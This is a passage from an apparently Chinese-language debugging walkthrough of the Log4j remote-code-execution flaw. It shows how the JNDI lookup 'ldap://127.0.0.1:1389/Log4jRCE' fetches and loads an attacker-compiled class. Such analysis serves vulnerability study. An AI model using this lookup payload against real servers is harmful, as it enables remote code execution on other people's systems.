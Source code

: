 ```
return super.lookup(var1)
```

也就是`super.lookup('ldap://127.0.0.1:1389/Log4jRCE')`

![image-20211210223114820](log4jrce/image-20211210223114820.png)

```
var1 = "ldap://127.0.0.1:1389/Log4jRCE"
var2 (slot_2) = {ResolveResult@2676} 
var3 (slot_3) = {LdapCtx@2677} 
```

var2获取remote的class，即跳转到了我们之前编译的`Log4jRCE.class`

![image-20211210223755936](log4jrce/image-20211210223755936.png)

var3实例化，接着var3lookup，加载

![image-20211210223337687](log4jrce/image-20211210223337687.png)
